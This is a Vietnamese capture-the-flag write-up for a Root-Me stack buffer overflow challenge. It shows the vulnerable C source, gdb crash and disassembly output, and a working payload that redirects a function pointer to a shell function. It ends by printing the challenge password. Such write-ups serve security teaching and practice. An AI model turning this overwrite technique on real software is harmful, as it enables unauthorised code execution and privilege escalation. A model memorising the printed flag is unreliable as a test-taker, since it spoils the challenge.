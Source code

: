 # Co-che-hoat-dong-cua-ma-doc - challenge 2 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 2 : ssh -p 2222 app-systeme-ch15@challenge02.root-me.org
```
![image](https://user-images.githubusercontent.com/64201705/119267758-20c6c080-bc1a-11eb-9679-4ad8a2aba493.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:
![image](https://user-images.githubusercontent.com/64201705/119267830-6d120080-bc1a-11eb-90fd-9801660bea49.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
Rõ ràng ta thấy để vào được shell bằng câu lệnh:
```C 
system("/bin/bash"); 
``` 
thì ta cần chương trình gọi hàm shell(), đọc source code ta thấy sau khi nhận 128 bytes từ input stdin bỏ vào biến buf thì chương trình gọi hàm func().
Ở đây ta sẽ nghĩ tới việc thay thế địa chỉ gọi hàm func() bằng hàm shell(). 
Trước hết ta sẽ thử ghi đè 128 bytes và 4 bytes phía sau bằng chữ LDLD xem kết quả sẽ như thế nào trong thanh ghi bằng cách sử dụng gdb.
![image](https://user-images.githubusercontent.com/64201705/119268127-bc0c6580-bc1b-11eb-8125-815eb5c10781.png)
```Bash  
(gdb) run < <(python -c "print 'A'*128+'LDLD'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128+'LDLD'")

Program received signal SIGSEGV, Segmentation fault.
0x444c444c in ?? ()
(gdb) info register
eax            0x444c444c       1145848908
ecx            0xbffffa7c       -1073743236
edx            0xb7fc489c       -1208203108
ebx            0x804a000        134520832
esp            0xbffffa6c       0xbffffa6c
ebp            0xbffffb08       0xbffffb08
esi            0xb7fc3000       -1208209408
edi            0x0      0
eip            0x444c444c       0x444c444c
eflags         0x10282  [ SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
``` 
ta thấy chương trình sẽ bị crash và giá trị tại eax sẽ là chữ LDLD dưới dạng hex: 0x444c444c
Ta thử disassemble main thử xem:
![image](https://user-images.githubusercontent.com/64201705/119268351-bc593080-bc1c-11eb-9547-566b9c40f7a3.png)
```Bash
Dump of assembler code for function main:
   0x08048584 <+0>:     lea    0x4(%esp),%ecx
   0x08048588 <+4>:     and    $0xfffffff0,%esp
   0x0804858b <+7>:     pushl  -0x4(%ecx)
   0x0804858e <+10>:    push   %ebp
   0x0804858f <+11>:    mov    %esp,%ebp
   0x08048591 <+13>:    push   %ebx
   0x08048592 <+14>:    push   %ecx
   0x08048593 <+15>:    sub    $0x90,%esp
   0x08048599 <+21>:    call   0x80485de <__x86.get_pc_thunk.ax>
   0x0804859e <+26>:    add    $0x1a62,%eax
   0x080485a3 <+31>:    lea    -0x1aa7(%eax),%edx
   0x080485a9 <+37>:    mov    %edx,-0xc(%ebp)
   0x080485ac <+40>:    mov    -0x4(%eax),%edx
   0x080485b2 <+46>:    mov    (%edx),%edx
   0x080485b4 <+48>:    sub    $0x4,%esp
   0x080485b7 <+51>:    push   %edx
   0x080485b8 <+52>:    push   $0x85
   0x080485bd <+57>:    lea    -0x8c(%ebp),%edx
   0x080485c3 <+63>:    push   %edx
   0x080485c4 <+64>:    mov    %eax,%ebx
   0x080485c6 <+66>:    call   0x8048390 <fgets@plt>
   0x080485cb <+71>:    add    $0x10,%esp
   0x080485ce <+74>:    mov    -0xc(%ebp),%eax
   0x080485d1 <+77>:    call   *%eax
   0x080485d3 <+79>:    nop
   0x080485d4 <+80>:    lea    -0x8(%ebp),%esp
   0x080485d7 <+83>:    pop    %ecx
   0x080485d8 <+84>:    pop    %ebx
---Type <return> to continue, or q <return> to quit---
   0x080485d9 <+85>:    pop    %ebp
   0x080485da <+86>:    lea    -0x4(%ecx),%esp
   0x080485dd <+89>:    ret
End of assembler dump.
```
Ta thấy sau khi gọi hàm fgets tại địa chỉ 0x080485c6 thì nó tiếp tục gọi hàm func() là con trỏ hàm được lưu trong thanh ghi eax, do đó ta sẽ tìm địa chỉ hàm shell để thay thế vào thanh ghi này bằng cách disass shell

![image](https://user-images.githubusercontent.com/64201705/119268337-ae0b1480-bc1c-11eb-8892-cec5781bc9ad.png)
```Bash
(gdb) disass shell
Dump of assembler code for function shell:
   0x08048516 <+0>:     push   %ebp
   0x08048517 <+1>:     mov    %esp,%ebp
   0x08048519 <+3>:     push   %esi
   0x0804851a <+4>:     push   %ebx
   0x0804851b <+5>:     call   0x8048450 <__x86.get_pc_thunk.bx>
   0x08048520 <+10>:    add    $0x1ae0,%ebx
   0x08048526 <+16>:    call   0x80483a0 <geteuid@plt>
   0x0804852b <+21>:    mov    %eax,%esi
   0x0804852d <+23>:    call   0x80483a0 <geteuid@plt>
   0x08048532 <+28>:    sub    $0x8,%esp
   0x08048535 <+31>:    push   %esi
   0x08048536 <+32>:    push   %eax
   0x08048537 <+33>:    call   0x80483d0 <setreuid@plt>
   0x0804853c <+38>:    add    $0x10,%esp
   0x0804853f <+41>:    sub    $0xc,%esp
   0x08048542 <+44>:    lea    -0x1990(%ebx),%eax
   0x08048548 <+50>:    push   %eax
   0x08048549 <+51>:    call   0x80483c0 <system@plt>
   0x0804854e <+56>:    add    $0x10,%esp
   0x08048551 <+59>:    nop
   0x08048552 <+60>:    lea    -0x8(%ebp),%esp
   0x08048555 <+63>:    pop    %ebx
   0x08048556 <+64>:    pop    %esi
   0x08048557 <+65>:    pop    %ebp
   0x08048558 <+66>:    ret
End of assembler dump.
(gdb)
```
Hàm shell bắt đầu ở địa chỉ ``` 0x08048516 ``` do đó ta sẽ phải ghi giá trị này vào eax để chương trình gọi tới.
Vậy ta sẽ dùng payload là 128 chữ A và địa chỉ này dưới dạng shellcode:

```Bash 
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128+'\x16\x85\x04\x08'") - | ./ch15
ls
Makefile  ch15  ch15.c
id
uid=1215(app-systeme-ch15-cracked) gid=1115(app-systeme-ch15) groups=1115(app-systeme-ch15),100(users)
cat ./passwd
cat: './'$'\306''p'$'\303''asswd': No such file or directory
cat ./passwd
cat: ./passwd: No such file or directory
cat passwd
cat: passwd: No such file or directory
cd ~
ls
Makefile  ch15  ch15.c
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```
![image](https://user-images.githubusercontent.com/64201705/119268630-08f13b80-bc1e-11eb-8c79-68b3233f351a.png)

Như vậy flag hay password là:

## B33r1sSoG0oD4y0urBr4iN



